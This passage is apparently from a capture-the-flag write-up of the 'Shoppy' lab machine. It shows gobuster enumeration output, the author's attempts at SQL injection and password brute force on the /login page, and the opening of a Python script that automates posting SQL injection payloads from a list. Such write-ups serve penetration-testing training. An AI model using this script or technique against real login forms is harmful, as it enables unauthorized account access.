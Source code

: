 According to the nmap scan, I added `10.129.202.0 shoppy.htb` and I navigated through the website to see if there's anything interesting.

---

## Login

First thing I was greeted with was the Shoppy homepage, with nothing to see there, not even links in the source code, so I ran a `gobuster` dir scan to see hidden pages and I found `/login`

```shell
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/20 07:27:57 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]

...
```

So I navigated into this page and found a login form. At first I tried manually typing some simple SQL Injections but didn't work, except, there's a weird thing that whenever the query has a single quote `'`, the response takes so much time, and that made harder for me to bruteforce queries later on using `Burp Suite`, so I figured it's either causing some sort of an error, and it won't lead me anywhere, or it was intended by the machine creators, so I removed all the queries that had single quotes and retried the brute force again with `Burp Suite`.

So I literally spent 2 days trying to break into the login page, tried all techniques I know, tried everything, I brute forced all passwords lists on username "admin" to login and different usernames, until I made a little python script to automate SQL Injection attempts because the `504 Request Timeout` error stopped all brute forcers I know.

```python
import requests
import argparse

parser = argparse.ArgumentParser(description='SQL Injection using a list of queries.')
parser.add_argument('list', metavar='[path]', type=str, help='path to queries list', )
args = parser.parse_args()

url = "http://shoppy.htb"
path = "/login"

with open(args.list, "r") as queries:
	lines = queries.readlines()
	for line in lines:
		line = line.strip()
		try:
			print("Trying " + line)
			r = requests.post(url + path, json={"username": line, "password": line}, timeout=1)
			try:
				if (r.url.split("=")[1]) == "WrongCredentials":
					print("Did not work... going next.")
			except:
```